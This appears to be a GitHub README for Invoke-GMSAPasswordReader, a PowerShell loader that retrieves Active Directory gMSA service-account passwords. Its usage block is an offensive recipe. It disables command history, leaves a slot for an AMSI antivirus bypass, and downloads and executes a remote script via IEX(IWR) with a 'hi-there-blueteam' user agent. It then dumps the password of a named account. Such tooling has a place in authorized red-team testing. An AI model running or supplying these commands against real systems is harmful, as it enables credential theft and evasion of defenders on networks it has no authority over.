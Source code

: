 # Invoke-GMSAPasswordReader

## The .Net assembly is based on my modified fork GMSAPasswordReader: https://github.com/ricardojba/GMSAPasswordReader.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the [GMSAPasswordReader](https://github.com/ricardojba/GMSAPasswordReader).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-GMSAPasswordReader.ps1')

Invoke-GMSAPasswordReader -Command "--AccountName jkohler"
```

## Credits

[rvazarkar] for the original [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader).
